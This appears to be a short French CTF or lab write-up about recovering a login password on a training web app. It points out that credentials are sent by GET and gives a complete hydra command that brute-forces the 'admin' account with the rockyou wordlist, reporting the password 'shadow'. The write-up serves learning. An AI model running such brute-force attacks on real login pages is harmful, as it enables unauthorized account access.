

# Objectif
Trouver le mot de passe pour le login.

## Code source

Le code source nous indique que le formulaire est envoyé via la méthode GET. Une erreur de développement qui laisse les credentials en clair lors de la transmission des données, qui peuvent être manipulées via l'url et/ou être lu via une attaque de l'homme du milieu.

## Exploitation 

On va supposer dans un premier temps que le nom d'utilisateur est `admin`. 
Ensuite on va utiliser hydra pour bruteforcer le mot de passe.

On utilise une autre vm avec parrot installé dessus (OS ayant plein d'outils de sécurité)

`hydra -l admin -P /usr/share/wordlists/rockyou.txt -F 10.171.55.130 http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'`

-l : nom d'utilisateur
-P : liste de mots à utiliser pour trouver le mot de passe (ici rockyou.txt qui est un dictionnaire regroupant les mots de passe les plus utilisés)
-F : s'arrête dès qu'un résultat positif est trouvé
http-get-form : methode utilisée pour l'envoie du formulaire
La "requête" se fait comme suit : `chemin:parametres:condition_echec` 

Après quelques secondes, on obtient un résultat: `shadow`.